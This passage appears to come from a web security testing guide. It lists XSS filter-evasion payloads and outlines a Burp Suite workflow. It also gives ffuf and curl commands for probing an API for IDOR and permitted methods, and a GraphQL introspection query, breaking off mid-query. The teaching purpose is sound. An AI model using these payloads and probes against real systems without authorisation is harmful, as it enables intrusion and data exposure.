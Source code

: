 ```
# Case manipulation
<ScRiPt>alert('XSS')</sCrIpT>

# Encoding
%3Cscript%3Ealert('XSS')%3C/script%3E

# Null bytes
<script>alert('XSS')%00</script>

# Comment insertion
<scr<!--comment-->ipt>alert('XSS')</script>

# Alternative syntax
<svg/onload=alert('XSS')>
```

## Burp Suite Workflow

1. **Configure Proxy**: Set browser to use Burp proxy (127.0.0.1:8080)
2. **Spider**: Crawl the application to map structure
3. **Scan**: Run automated vulnerability scanner
4. **Manual Testing**: Use Repeater and Intruder for targeted testing
5. **Document**: Track findings in Burp's issue tracker

## API Security Testing

### REST API Testing

```bash
# Enumerate endpoints
ffuf -u https://api.example.com/FUZZ -w api-endpoints.txt

# Test authentication
curl -X GET https://api.example.com/users -H "Authorization: Bearer TOKEN"

# Test for IDOR
curl https://api.example.com/user/1
curl https://api.example.com/user/2

# Test HTTP methods
curl -X DELETE https://api.example.com/user/1
```

### GraphQL Testing

```graphql
# Introspection query
{
  __schema {
    types {
      name
      fields {
        name
      }
    }
  }
}

# Query for sensitive data
{
  users {
    id
    username
```